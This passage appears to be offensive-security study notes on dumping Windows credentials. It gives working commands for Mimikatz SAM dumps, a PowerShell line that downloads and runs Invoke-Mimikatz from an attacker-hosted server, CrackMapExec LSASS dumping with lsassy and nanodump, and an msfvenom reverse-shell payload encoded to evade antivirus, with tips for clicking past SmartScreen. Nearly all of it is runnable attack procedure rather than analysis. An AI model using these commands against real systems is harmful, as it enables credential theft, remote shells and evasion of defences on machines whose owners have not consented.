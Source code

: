 ```
// Mimikatz Executable - dropped to disk
mimikatz.exe
privilege::debug
token::elevate
lsadump::sam
```

```
// Invoke-Mimikatz - in-memory loaded

// download the script from Github and host it on your attacker machine
python3 -m http.server 3000

// run the thing
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.163.128:3000/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```

### CrackMapExec

- Requirements: remote access and initial credentials
- Detections: needs further testing

https://wiki.porchetta.industries/smb-protocol/obtaining-credentials/dump-lsass

```
// direct execution with CrackMapExec

// Lsassy
#~ cme smb 192.168.255.131 -u administrator -p pass -M lsassy
#~ cme smb 192.168.255.131 -u administrator -H NTLM_hash -M lsassy

// Nanodump
#~ cme smb 192.168.255.131 -u administrator -p pass -M nanodump
#~ cme smb 192.168.255.131 -u administrator -H NTLM_hash -M nanodump
```

### Getting a Meterpreter Shell to Dump Creds

- Requirements: remote access to a previously installed implant
- Detections: SmartScreen won't be happy with you downloading it using a browser, just hit all the 'Run Anyway' prompts, and Defender will generally catch a basic Meterpreter shell

1. Generate a payload with `msfvenom`

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.163.128 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe
```

`-p` is specifying the payload type
`LHOST` is specifying the attacker machine for the reverse shell to call back to
`LPORT` is specify the port to call back on
`-f` is specifying the format of the generated payload (decided to go with exe cause powershell kept messing with me)
`-e` is specifying the encoding of the payload - a technique for antivirus evasion which we'll chat about in a future session
`-i` is specifying the number of iterations to perform that encoding - more iterations == more obfuscation
`-o` is specifying the output file name, if not specified it just dumps it to the console
